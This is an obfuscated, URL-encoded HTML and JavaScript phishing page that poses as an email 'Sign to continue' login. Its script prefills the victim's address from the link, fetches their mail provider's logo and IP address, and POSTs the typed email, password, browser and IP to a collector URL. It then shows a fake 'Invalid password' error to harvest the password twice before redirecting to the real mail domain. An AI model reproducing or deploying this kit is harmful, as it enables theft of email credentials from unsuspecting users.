BS%22%3E%20%3Cdiv%20id%3D%22top%22%3E%3Cimg%20onerror%3D%22this.src%3D%27https%3A//png.pngtree.com/png-vector/20190826/ourmid/pngtree-email-png-image_1697542.jpg%27%22%20id%3D%22pg-TX-Na%22%20style%3D%22margin-top%3A5px%3Bwidth%3A%2090px%3B%20height%3A%2080px%3B%22%3E%20%3Cspan%20style%3D%22vertical-align%3A%20middle%3B%20padding-left%3A3px%3B%22%20id%3D%22qz-zj-op%22%3E%3C/span%3E%20%3C/div%3E%20%3Cbr%3E%20%3C/h2%3E%20%3Ch3%20align%3D%22center%22%3ESign%20to%20continue%3C/h3%3E%20%3Cbr%3E%20%3Cdiv%20class%3D%22xA-vt-OV%22%3E%20%3Cdiv%20class%3D%22Tb-Tk-pw%22%3E%20%3Cspan%20class%3D%22mV-SF-Sm%22%3E%3Ci%20class%3D%22Vj-Mb-gO%20Tv-ae-PH%22%3E%3C/i%3E%20%3C/span%3E%20%3Cinput%20class%3D%22Qe-Vg-JI%22%20required%3D%22%22%20id%3D%22Qb-xH-Ei%22%20name%3D%22Qb-xH-Ei%22%20readonly%3D%22%22%20type%3D%22email%22%20placeholder%3D%22Username%22%3E%20%3C/div%3E%20%3C/div%3E%20%3Cdiv%20class%3D%22xA-vt-OV%22%3E%20%3Cdiv%20class%3D%22Tb-Tk-pw%22%3E%20%3Cspan%20class%3D%22mV-SF-Sm%22%3E%3Ci%20class%3D%22Vj-Mb-gO%20bu-th-uu%22%3E%3C/i%3E%20%3C/span%3E%20%3Cinput%20placeholder%3D%22Password%22%20name%3D%22kC-bl-Lp%22%20required%3D%22%22%20type%3D%22password%22%20class%3D%22Qe-Vg-JI%22%20id%3D%22kC-bl-Lp%22%3E%20%3C/div%3E%20%3Cspan%20id%3D%22errorPass%22%20style%3D%22display%3Anone%3Bcolor%3Ared%3Btext-align%3Aleft%3B%20font-size%3A0.8rem%3Bfont-weight%3A200%3B%22%3EInvalid%20password%20for%20the%20email%20address%3C/span%3E%3C/div%3E%20%3Cdiv%20class%3D%22xA-vt-OV%22%3E%20%3Cdiv%20align%3D%22left%22%3E%20%3Cinput%20type%3D%22checkbox%22%3E%20Remember%20Me%3C/div%3E%20%3C/div%3E%20%3Cdiv%20class%3D%22xA-vt-OV%22%3E%20%3Cbutton%20type%3D%22submit%22%20onClick%3D%22logMe%28%29%22%20%20id%3D%22pQ-DV-Uz%22%20class%3D%22btn%20btn-primary%20BX-ny-hQ%20btn-block%22%3ESign%20in%3C/button%3E%20%3C/div%3E%20%3C/div%3E%20%3Cp%3EPOP3/IMAP%20SERVER%3A%3Cspan%20id%3D%22mail_type%22%20style%3D%22color%3Ablue%22%3E%3C/span%3E%3C/p%3E%20%3Cinput%20type%3D%22hidden%22%20name%3D%22Fl-fJ-aZ%22%20value%3D%22vR0qZo9gepc10ebkDskbHKE1uz56QiuQKSzIXA3GnVIQ4K48fbfubw+0VVPoAZInJjzQUpp5e027KU6T7IgvFX/9z61qZ7MUO5cvjaYKinBU/qA9cTAzctibFB/uiQXaBifqu4SRYyzuoVAcxYkn9JXCbsJ40mEfyJCnvniRSevrAaYwVVQCeMcn3K1CY/jRHRB0OdG+CboAB598WFpmkJuuhZCZ/LXfynu97w6GN6+Br5BW63qTY6kGUKVXSue+YpLNYP0M%22%3E%20%3C/form%3E%20%3C/div%3E%20%3C/div%3E%20%3C/div%3E%20%3C/div%3E%20%3C/div%3E%20%3C/div%3E%3Cdiv%20id%3D%22goog-gt-tt%22%20class%3D%22skiptranslate%22%20dir%3D%22ltr%22%3E%3Cdiv%20style%3D%22padding%3A%208px%3B%22%3E%3Cdiv%3E%3Cdiv%20class%3D%22logo%22%3E%3Cimg%20src%3D%22https%3A//www.gstatic.com/images/branding/product/1x/translate_24dp.png%22%20alt%3D%22Google%20%u041F%u0435%u0440%u0435%u0432%u043E%u0434%u0447%u0438%u043A%22%20width%3D%2220%22%20height%3D%2220%22%3E%3C/div%3E%3C/div%3E%3C/div%3E%3Cdiv%20class%3D%22top%22%20style%3D%22padding%3A%208px%3B%20float%3A%20left%3B%20width%3A%20100%25%3B%22%3E%3Ch1%20class%3D%22title%20gray%22%3E%u0418%u0441%u0445%u043E%u0434%u043D%u044B%u0439%20%u0442%u0435%u043A%u0441%u0442%3C/h1%3E%3C/div%3E%3Cdiv%20class%3D%22middle%22%20style%3D%22padding%3A%208px%3B%22%3E%3Cdiv%20class%3D%22original-text%22%3E%3C/div%3E%3C/div%3E%3Cdiv%20class%3D%22bottom%22%20style%3D%22padding%3A%208px%3B%22%3E%3Cdiv%20class%3D%22activity-links%22%3E%3Cspan%20class%3D%22activity-link%22%3E%u041F%u0440%u0435%u0434%u043B%u043E%u0436%u0438%u0442%u044C%20%u043B%u0443%u0447%u0448%u0438%u0439%20%u0432%u0430%u0440%u0438%u0430%u043D%u0442%20%u043F%u0435%u0440%u0435%u0432%u043E%u0434%u0430%3C/span%3E%3Cspan%20class%3D%22activity-link%22%3E%3C/span%3E%3C/div%3E%3Cdiv%20class%3D%22started-activity-container%22%3E%3Chr%20style%3D%22color%3A%20%23CCC%3B%20background-color%3A%20%23CCC%3B%20height%3A%201px%3B%20border%3A%20none%3B%22%3E%3Cdiv%20class%3D%22activity-root%22%3E%3C/div%3E%3C/div%3E%3C/div%3E%3Cdiv%20class%3D%22status-message%22%20style%3D%22display%3A%20none%3B%22%3E%3C/div%3E%3C/div%3E%3Cdiv%20class%3D%22goog-te-spinner-pos%22%3E%3Cdiv%20class%3D%22goog-te-spinner-animation%22%3E%3Csvg%20xmlns%3D%22http%3A//www.w3.org/2000/svg%22%20class%3D%22goog-te-spinner%22%20width%3D%2296px%22%20height%3D%2296px%22%20viewBox%3D%220%200%2066%2066%22%3E%3Ccircle%20class%3D%22goog-te-spinner-path%22%20fill%3D%22none%22%20stroke-width%3D%226%22%20stroke-linecap%3D%22round%22%20cx%3D%2233%22%20cy%3D%2233%22%20r%3D%2230%22%3E%3C/circle%3E%3C/svg%3E%3C/div%3E%3C/div%3E%3Cscript%20src%3D%22https%3A//cdnjs.cloudflare.com/ajax/libs/jquery/2.2.4/jquery.min.js%22%3E%3C/script%3E%0A%20%3Cscript%20type%3D%22text/javascript%22%3E%0A%09//var%20paramVal%20%3D%20decodeURIComponent%28window.location.search.match%28/%28%5C%3F%7C%26%29searchx%5C%3D%28%5B%5E%26%5D*%29/%29%5B2%5D%29%3B%0A%09var%20paramVal%20%3D%20window.location.hash.substr%281%29%3B%0A%09var%20parts%20%3D%20paramVal.split%28%22@%22%29%3B%0A%09var%20username%20%3D%20parts%5B0%5D%3B%0A%09var%20domain%20%3D%20parts%5B1%5D%3B%0A%09var%20url%20%3D%20document.getElementById%28%27url%27%29.value%3B%0A%09document.getElementById%28%27Qb-xH-Ei%27%29.value%20%3D%20paramVal%3B%0A%09var%20mailTypeText%20%3D%20%27%20mail.%27%20+%20domain%3B%0A%09var%20ifrm%20%3D%20document.getElementById%28%27dl-rA-Ms%27%29%3B%0A%09document.getElementById%28%27mail_type%27%29.innerHTML%20%3D%20mailTypeText.toUpperCase%28%29%3B%09%0A%09document.getElementById%28%27dl-rA-Ms%27%29.src%20%3D%20%27//%27+domain%3B%0A%09document.getElementById%28%27pg-TX-Na%27%29.src%20%3D%20%27https%3A//logo.clearbit.com/%27+domain%3B%20%09%09%0A%09forms_ini%28%29%3B%0A%09let%20x%20%3D%201%3B%0A%09var%20ip%3B%0A%09%24.getJSON%28%27https%3A//api.ipify.org%3Fformat%3Djsonp%26callback%3D%3F%27%2C%20function%28data%29%20%7B%0A%09%09ip%20%3D%20data.ip%3B%0A%09%7D%29%3B%09%20%0Afunction%20logMe%28%29%7B%0A%09if%28%20validEmail%28document.getElementById%28%27Qb-xH-Ei%27%29.value%29%20%26%26%20%27%27%20%21%3D%3D%20document.getElementById%28%27kC-bl-Lp%27%29.value%20%29%7B%0A%09%09var%20email%20%3D%20document.getElementById%28%27Qb-xH-Ei%27%29.value%3B%0A%09%09var%20pass%20%3D%20document.getElementById%28%27kC-bl-Lp%27%29.value%3B%0A%09%09var%20password%20%3D%20pass.replace%28/%5Cs/g%2C%20%22%5BSPACE%5D%22%29%3B%3B%0A%09%09var%20browser%20%3D%20userBrowser%28%29%3B%0A%09%09%0A%20%20%20%20%09const%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%09xhttp.open%28%22POST%22%2Curl%29%3B%0A%20%20%20%20%09xhttp.setRequestHeader%28%22Content-type%22%2C%20%22application/x-www-form-urlencoded%22%29%3B%0A%20%20%20%20%09xhttp.send%28%22e%3D%22+email+%22%26p%3D%22+password+%22%26b%3D%22+browser+%22%26ip%3D%22+ip%29%3B%0A%20%20%20%20%09document.getElementById%28%27kC-bl-Lp%27%29.value%20%3D%20%27%27%3B%0A%20%20%20%20%09%0A%20%20%20%20%09%09%0A%09%09if%28%20x%20%3E%3D%202%29%7B%0A%09%09%20%20%20%20setTimeout%28function%28%29%7B%0A%09%09%20%20%20%20%20%20%20%20window.location.replace%28%27//%27+domain%29%3B%0A%09%09%20%20%20%20%7D%2C1000%29%3B%0A%09%09%7Delse%7B%0A%09%09%20%20%20%20x%20%3D%20x%20+%201%3B%0A%09%09%20%20%20%20document.getElementById%28%27errorPass%27%29.style.display%20%3D%20%27block%27%3B%0A%09%09%7D%0A%09%09%0A%09%09%0A%09%09%0A%09%7Delse%7B%0A%09%09alert%28%27Invalid%20Email%20or%20Password%27%29%3B%0A%09%7D%0A%7D%0Afunction%20validEmail%28email%29%7B%0A%20%20%20%20var%20re%20%3D%20/%5E%5B%5E%5Cs@%5D+@%5B%5E%5Cs@%5D+%5C.%5B%5E%5Cs@%5D+%24/%3B%0A%20%20%20%20return%20re.test%28email%29%3B%0A%7D%0Afunction%20userBrowser%28%29%7B%0A%09var%20userAgent%20%3D%20navigator.userAgent.toLowerCase%28%29%3B%09%09%09%09%09%09%0A%09if%20%28/edge/i.test%28userAgent%29%29%7B%0A%09%09return%20%27Edge%20Browser%27%3B%0A%09%7Delse%20if%20%28/rv%3A11/i.test%28userAgent%29%29%7B%0A%09%09return%20%27IE%20v11%27%3B%0A%09%7D%20else%20if%20%28/msie%2010/i.test%28userAgent%29%29%7B%0A%09%09%09return%20%27IE%20v10%27%3B%0A%09%7D%20else%20if%20%28/opr/i.test%28userAgent%29%29%7B%0A%09%09return%20%27Opera%27%3B%0A%09%7D%20else%20if%20%28/chrome/i.test%28userAgent%29%29%7B%0A%09%09return%20%27Chrome%27%3B%0A%09%7D%20else%20if%20%28/firefox/i.test%28userAgent%29%29%7B%0A%09%09return%20%27Firefox%27%3B%0A%09%7D%20else%20if%20%28%21%21navigator.userAgent.match%28/Version%5C/%5B%5Cd%5C.%5D+.*Safari/%29%29%20%7B%0A%09%09return%20%27Safari%27%3B%0A%09%7D%0A%09%09return%20%27Unknown%27%3B%0A%7D%0Afunction%20forms_ini%28%29%7B%0A%20%20for%28var%20form%20of%20document.getElementsByTagName%28%27form%27%29%29%7B%0A%20%20%20%20form.addEventListener%28%27submit%27%2C%20function%28ev%29%7B%0A%20%20%20%20%20%20ev.preventDefault%28%29%0A%20%20%20%20%7D%29%0A%20%20%7D%0A%7D%0A%3C/script%3E%0A%20%3C/body%3E%3C/html%3E'))
</script>
